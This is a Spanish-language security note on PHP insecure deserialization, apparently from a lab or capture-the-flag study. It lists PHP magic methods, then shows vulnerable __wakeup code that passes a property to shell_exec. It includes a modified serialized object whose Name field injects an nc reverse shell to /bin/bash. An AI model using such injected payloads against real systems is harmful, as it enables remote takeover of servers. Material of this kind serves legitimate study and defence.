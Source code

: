 ### INFO

- Php tiene un total de 17 magic methods
- Son métodos que reescriben el comportamiento de los objetos cuando son llamados
- Inician con "__"

| Método   | Desc. |
|----------|------|
| __construct    | Método constructor de una clase  |
| __toString    | Define cómo un objeto reacciona al ser trabajado como un string   |
| __call  | Usado cuando se trata de llamar un metodo inaccesible dentro del contexto de un objeto   |
| __get     | CUando tratamos de leer propiedades inaccesibles   |
| __set    | Llamado cuando tratamos de escribir propiedades inaccesibles   |
| __clone    | Cuando tratamos de clonar un objeto   |
| __destruct     | Cuando necesitamos destruir un objeto   |
| __isset    | Cuando tratamos de llamar un isset() o un isempty() en propiedades inaccessibles   |
| __invoke    | Cuando tratamos de invocar un objeto como función   |
| __sleep     | **Llamada cuando se necesita serializar un objeto**. Si __serialize y __sleep están definidas la segunda es ignorada   |
| __wakeup    | **Llamada cuando se deserializa un objeto**. Si __unserialize y __wakeup están definidas, la segunra es ignorada   |
| __unset    | Llamada cuando se tratamos de hacer un unset sobre una propiedad inaccesible   |
| __callStatic    | Llamada cuando necesitamos acceder a un metodo inaccesible en un contexto estático  |
| __set_state    | Llamado cuando var_export es llamado sobre un objeto   |
| __debuginfo    | Llamado cuando var_dump es llamado sobre un objeto   |
| __unserialize     |  Llamado cuando necesitamos un deserializar un objeto  |
| __serialize    | Llamado cuando necesitamos serializar un objeto   |


### Whitebox

Supongamos que tenemos el siguiente código que recibe un objeto serializado:

       public function __construct($Name, $Email, $Password, $ProfilePic) {
            $this->setName($Name);
            $this->setEmail($Email);
            $this->setPassword($Password);
            $this->setProfilePic($ProfilePic);
        }
    
        public function __wakeup() {
            shell_exec('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
        }
    
        public function __sleep() {
            return array("Name", "Email", "Password", "ProfilePic");
        }

Vemos que la función __wakeup es utilizada para deserializar y asentar esto en un log por medio de la ejecución de código en la terminal y que invoca al atributo NAME del objeto.

Podríamos entonces modificar el value del name del objeto para crear una shell reversa y conseguir RCE:

##### Objeto serializado:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"porota";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}

##### Objeto modificado con inyección de codigo:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"; nc -nv 127.0.0.1 9999 -e /bin/bash;#";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}


---
#### Extra

Nos siempre el RCE va a ser posible, de igual manera depende de los magic methods usados por los desarrolladores y la inyección en un objeto serializado no se resume a comandos. Puede ser aplicados a sql, LFI y cualquier otra transacción de datos. Sean creativos.
